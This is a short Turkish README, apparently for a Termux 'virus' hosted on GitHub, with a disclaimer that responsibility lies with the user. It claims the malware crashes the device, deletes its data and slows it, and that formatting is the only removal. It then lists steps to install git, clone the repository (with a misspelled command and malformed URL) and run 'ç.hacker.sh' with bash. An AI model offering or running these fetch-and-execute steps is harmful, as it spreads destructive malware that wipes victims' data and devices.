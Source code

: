 /////////////////////////////////////////
sorumluluk kulanıcıya aitir////////////////
///////////////////////////////////////////
vürüs hakında 
////////////////////////
 vürüs cihazı çökertiyor.
___________________________
cihazın verilerini siliyor.
___________________________
cıhazı yavaşlatıyor
____________________________
 Not :vürüsü silmenin tek yolu cihaza format atmaktır.
vürüsü aktifleştirmek için
_____________
pkg git git
______________
git klon https://github.com/termuxhackt/termux.sh/new/main
__________________________________&__________________________
ls
______________________________________________
cd termux.sh
____&__&&__________
ls
_______________
chmod +x *
________________
ls
__________________
bash ç.hacker.sh
________________________________________
